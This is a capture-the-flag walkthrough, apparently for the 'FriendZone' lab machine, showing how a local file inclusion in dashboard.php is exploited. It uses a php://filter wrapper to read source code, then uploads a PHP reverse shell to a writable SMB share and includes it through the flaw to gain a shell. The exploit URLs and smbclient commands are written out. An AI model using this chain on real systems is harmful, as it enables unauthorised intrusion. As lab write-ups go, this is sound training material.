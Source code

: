 https://admin.friendzoneportal.red/ seems to be a fake login page and every credentials we input the site responds with something like 'page under construction'.  
the second allow us lo log in using credentials found on the smb service.  
here we can navigate to '/dashboard' and here we can see the following:  

## Foothold
After we log in into the portal, we can see the following statement
```
image_name param is missed !
please enter it to show the image
default is image_id=a.jpg&pagename=timestamp
```
so, if we try to set the parameter we are shown a picture, a.jpg and the following: ```Final Access timestamp is 1642521979```.
So, we can assume that the page is somehow including a page that profide timestamp.  
If we try to include, for example, login, we get ```Wrong!``` that is the same response that gets returned when an incorrect credential is given to login page.  
As a further evidence, we can also try to include ```dashboard``` this will include the page recursively and lock the webserver.  
So, it seems like we have a LFI vulnerability.  
If we try to include any system file the include fails.  
Now, let's try to download the code using the following php wrapper:  
```
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=php://filter/convert.base64-encode/resource=login
```
PHP comes with many [built-in wrappers](https://www.php.net/manual/en/wrappers.php) for various URL-style protocols for use with the filesystem functions such as fopen(), copy(), file_exists() and filesize().  
In this case we are using php:// wrapper that allows us to access various I/O streams.  
We can use convert.* filters to processing all stream data through the base64_encode() and base64_decode() functions respectively.  
So as a result we can inject this conversion wrappers in the include() function and get the base64 encoded php source code.  
As we cans see in the dashboard.php source code we have an include for a file from the GET parameter, and the .php extension is added directly within the code
```
include($_GET["pagename"].".php");
```
Now we need to transform the discovered LFI into RCE.  
To do so, if we remember, way back we discovered a /Developer samba share that we can write into.  
since the File share is mounted on ```/etc/Files``` we can guess that the Developer share is mounted in ```/etc/Development```.
Let's upload a reverse shell there and try to include it using the LFI:
```
[root@kali FriendZone ]$ smbclient //$TARGET/Development
Enter WORKGROUP\root's password:
Try "help" to get a list of possible commands.
smb: \> put php-reverse-shell.php
putting file php-reverse-shell.php as \php-reverse-shell.php (47.5 kb/s) (average 47.5 kb/s)
smb: \> ls
  .                                   D        0  Tue Jan 18 16:47:21 2022
  ..                                  D        0  Wed Jan 23 22:51:02 2019
  php-reverse-shell.php               A     5493  Tue Jan 18 16:47:21 2022

                9221460 blocks of size 1024. 6443916 blocks available
smb: \>
```
now lets request the following:
```
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/php-reverse-shell
```
And we get a shell.
```
```
